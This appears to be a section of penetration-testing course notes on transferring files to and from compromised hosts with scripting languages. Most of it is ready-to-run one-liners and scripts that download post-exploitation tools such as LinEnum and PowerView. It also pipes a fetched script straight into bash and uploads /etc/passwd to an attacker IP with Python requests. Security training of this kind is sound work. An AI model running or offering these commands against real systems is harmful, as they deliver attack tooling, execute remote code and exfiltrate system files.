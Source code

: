It's common to find different programming languages installed on the machines we are targetting. 
Programming languages such as Python, PHP, Perl, and Ruby are commonly available in Linux distributions but can also be installed on Windows, although this is far less common.

We can use some Windows default applications, such as cscript and mshta, to execute JavaScript or VBScript code. JavaScript can also run on Linux hosts.

According to Wikipedia, there are around 700 programming languages, and we can create code in any programing language, to download, upload or execute instructions to the OS. This section will provide a few examples using common programming languages.

## Python2 download
`python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

## Python3 download
`python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

## PHP Download with File_get_contents()
`php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`

An alternative to file_get_contents() and file_put_contents() is the fpopen() module. We can use this module to open a URL, read it's content and save it into a file.

## PHP Download with Fopen()
`php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

## PHP Download a File and Pipe it to Bash
`php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`

**Note**: The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.


## Ruby
`ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`

## Perl
`perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`

## JavaScript
`
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
`
We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

## Download a File Using JavaScript and cscript.exe
`cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`

## VBScript
`
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
`

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

`cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`

## Upload Operations using Python3

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 requests module allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 uploadserver.

- `python3 -m uploadserver`
- `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`
